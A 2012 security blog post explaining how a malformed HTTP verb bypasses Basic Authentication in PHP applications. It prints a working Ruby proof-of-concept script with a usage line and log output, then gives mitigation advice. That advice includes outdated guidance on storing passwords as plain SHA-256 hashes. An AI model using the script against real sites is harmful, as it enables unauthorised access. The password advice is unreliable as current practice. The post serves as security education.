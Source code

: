 ```yaml
---
layout: post
title: "Bypassing HTTP Basic Authentication in PHP application nominated as hacking technique for 2012"
date: 2012-12-13 07:51
comments: true
published: true
featured: false
tags: 2012 breakers appsec php basic-authentication design 
thumb: php.png
level:
hn: 
rd: 
---
```


Authentication is a cool topic in application security research nowadays. Last
April I posted about a real world security assessment activities over a friend
of mine PHP powered portal.

Using a malformed HTTP verb to request a protected resource, it is possible to
bypass the authentication mechanism for a PHP 5.3 written web application.

[The post I wrote](http://armoredcode.com/blog/bypassing-basic-authentication-in-php-applications/)
was mentioned in Jeremiah Grossman list for 
[the top 10 hacking technique of 2012](http://blog.whitehatsec.com/top-ten-web-hacking-techniques-of-2012/)

<!-- more -->

## Original work by...

I recap that almost 3 years ago researchers found that 
[it was possible to bypass basic auth in Zend powered portal](http://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/) 
and that [this vulnerability is not Zend specific](http://eguaj.tumblr.com/post/2361187940/re-hackers-bypass-htaccess-security-by-using-gets).

In order to support custom WebDAV verbs, PHP interpreter when it founds an
unknown verb it gives the script the control about how to handle that method.
Of course this can be mitigated in .htaccess file specifying which HTTP verbs
are allowed let all other verbs to be discarded.

## The attacking script

A raw ruby script implementing the technique described in [my post](http://armoredcode.com/blog/bypassing-basic-authentication-in-php-applications/) is the following:

``` ruby dammi.rb
#!/usr/bin/env ruby

require 'net/http'

class Dammi < Net::HTTPRequest
  METHOD="DAMMI"
  REQUEST_HAS_BODY = false
  RESPONSE_HAS_BODY = true
end

raise "usage: dammi url page" if ARGV.length != 2

begin
  http=Net::HTTP.new(ARGV[0], 80)
  r_a = http.request(Dammi.new(ARGV[1]))
  puts r_a.body
rescue => e
  puts e.message
end
``` 

The script needs two parameters: the host and the url to be requested. **There
is no** error checking on parameter passed from command line so you may want to
add your own in order to have a pure defensive code.

```
$ ./dammi.rb localhost /protected_resource
```

The following line is in my webserver's log:

``` 
127.0.0.1 - - [13/Dec/2012 08:14:17] "DAMMI /protected_resource HTTP/1.1" 404 40 0.0008
``` 

## Off by one

The fundamental rule here is that HTTP Basic Authentication is something you
want to use in your development or testing environment to protect your
application **before** you deploy it in production.

I rather suggest you not to use HTTP Basic Authentication at all, choosing a
strong authentication mechanism. Supporting OAuth is a great deal since you
demand all credentials issue to a well known authentication provider (e.g.
Twitter, Facebook, Github.).

Look at [this post](http://armoredcode.com/blog/crafting-an-authentication-subsystem-that-rocks-for-your-padrino-application-with-omniauth/) if you need to implement OAuth in a Padrino powered application using Omniauth.

As general rules, you may also want to apply:

1. Backends must be strongly protected by a login form with username and
   passwords
2. Passwords **must not** be saved in plaintext but encrypted using SHA-256 or
   SHA-512. Using bcrypt is **even better**.
3. Login forms must be served over an HTTPS connection
4. Your server side scripts must **always** check for authentication token in
   the HTTP session or wherever you choose to save it
5. Never trust users.


Enjoy it!
